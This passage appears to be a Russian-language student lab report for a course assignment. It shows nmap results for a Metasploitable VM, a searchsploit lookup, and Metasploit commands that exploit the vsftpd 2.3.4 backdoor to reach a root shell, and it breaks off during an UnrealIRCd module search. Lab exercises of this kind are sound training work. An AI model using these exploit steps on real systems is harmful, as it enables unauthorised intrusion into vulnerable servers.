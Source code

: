 ```
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:0C:29:0A:77:01 (VMware)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.87 seconds
```
Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)  
```
 searchsploit vsftpd 2.3.4
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                              |  Path
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                                   | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                      | unix/remote/17491.rb
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
№1 - порт 21 - vsftpd 2.3.4 - Backdoor Command Execution  
```
sudo service postgresql start
service postgresql status
sudo msfdb init
sudo msfconsole
db_status
search vsftpd 2.3.4
hosts -a 192.168.6.244
hosts
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.6.244
exploit

whoami
root
hostname
metasploitable
hostname -i
127.0.1.1
exit
[*] 192.168.6.244 - Command shell session 1 closed.
```
№2 - порт 6667 - UnrealIRCd 3.2.8.1 - Backdoor Command Execution
```
search UnrealIRCd
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
```